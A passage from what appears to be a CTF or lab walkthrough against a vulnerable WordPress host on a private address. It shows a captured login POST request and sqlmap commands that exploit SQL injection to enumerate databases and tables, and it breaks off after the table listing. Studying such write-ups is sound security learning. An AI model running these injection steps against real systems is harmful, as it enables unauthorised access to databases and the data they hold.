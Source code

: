 ```
Fatal error: Call to undefined function add_action() in /opt/wordpress-4.1-0/apps/wordpress/htdocs/wp-content/plugins/hello.php on line 60
```

After some googling on this `hello.php` file on WordPress, I found out that it belongs to a plugin called Hello Dolly.

### Gaining Access

For `/login.php`, I'm using sqlmap to exploit the SQL injection vulnerability. Since it's a POST request and it's a bit bothersome to manually craft a POST request in sqlmap, I use BurpSuite to interrupt the POST request and put the content in a file called `request.txt`.

```
POST /login.php HTTP/1.1
Host: 192.168.0.104
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.104/login.php
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

user=testing&password=testing&s=Submit
```

Then, I run sqlmap using this `request.txt` file as the request content.

```
$ ./sqlmap.py -r request.txt --dbs
```

It returned the list of databases in the system.

```
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080
```

Let's try checking out the `wordpress8080` database's tables.

```
$ ./sqlmap.py -r request.txt -D wordpress8080 --tables
```

It only have `users` table.

```
Database: wordpress8080
[1 table]
+-------+
| users |
+-------+
```
